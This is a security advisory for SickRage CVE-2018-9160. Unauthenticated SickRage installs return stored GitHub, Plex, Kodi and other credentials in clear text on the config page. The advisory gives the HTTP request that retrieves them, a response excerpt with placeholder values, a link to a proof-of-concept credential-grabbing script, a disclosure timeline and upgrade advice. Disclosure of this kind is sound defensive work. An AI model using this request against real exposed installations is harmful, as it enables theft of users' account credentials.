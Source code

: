 # Sickrage cleartext github credentials CVE-2018-9160
---------------------------------------------------------------------

1. About

---------------------------------------------------------------------
Exploit Title: SickRage Clear-Text Credentials in HTTP Response  
Date: 2018-04-01  
Exploit Author: Sven Fassbender  
Contact: https://twitter.com/mezdanak  
Vendor Homepage: https://sickrage.github.io  
Software Link: https://github.com/SickRage/SickRage  
Version: < v2018.03.09-1  
CVE : CVE-2018-9160  
Category: webapps  

---------------------------------------------------------------------

2. Background information

---------------------------------------------------------------------
"SickRage is an automatic Video Library Manager for TV Shows.  
It watches for new episodes of your favourite shows, and when they are posted it does its magic:   
automatic torrent/nzb searching, downloading, and processing at the qualities you want." --extract from https://sickrage.github.io  

---------------------------------------------------------------------

3. Vulnerability description

---------------------------------------------------------------------
SickRage returns clear-text credentials for e.g. GitHub, AniDB, Kodi, Plex etc. in HTTP responses.  
Prerequisite is that the user did not set a username and password for their SickRage installation. (not enforced, default)  
  
HTTP request:  

```html
GET /config/general/ HTTP/1.1  
Host: 192.168.1.13:8081  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: de,en-US;q=0.7,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.13:8081/config/backuprestore/  
DNT: 1  
Connection: close  
Upgrade-Insecure-Requests: 1  
```
  
  
HTTP response:  

```html
HTTP/1.1 200 OK  
Content-Length: 113397  
Vary: Accept-Encoding  
Server: TornadoServer/4.5.1  
Etag: "e5c29fe99abcd01731bec1afec0e618195f1ae37"  
Date: Fri, 02 Mar 2018 10:47:51 GMT  
Content-Type: text/html; charset=UTF-8  

<!DOCTYPE html>  
<html lang="nl_NL">  
    <head>  
		[...]  
        <input type="text" name="git_username" id="git_username" value="email@example.com" class="form-control input-sm input300" autocapitalize="off" autocomplete="no" />  
        [...]  
        <input type="password" name="git_password" id="git_password" value="supersecretpassword" class="form-control input-sm input300" autocomplete="no" autocapitalize="off" />  
		[...]  
        </div>  
    </body>  
</html>  
```

---------------------------------------------------------------------

4. Proof of Concept

---------------------------------------------------------------------
https://github.com/mechanico/sickrageWTF/blob/master/get_github_creds_sickrage.py  

---------------------------------------------------------------------

5. Timeline

---------------------------------------------------------------------
[2018-03-07] Vulnerability discovered  
[2018-03-08] Vendor contacted  
[2018-03-08] Vendor replied  
[2018-03-09] Vulnerability fixed. (https://github.com/SickRage/SickRage/compare/v2018.02.26-2...v2018.03.09-1)  
  
---------------------------------------------------------------------

6. Recommendation

---------------------------------------------------------------------
Update the SickRage installation on v2018.03.09-1 or later.  
Protect the access to the web application with proper user credentials.  
  
---------------------------------------------------------------------
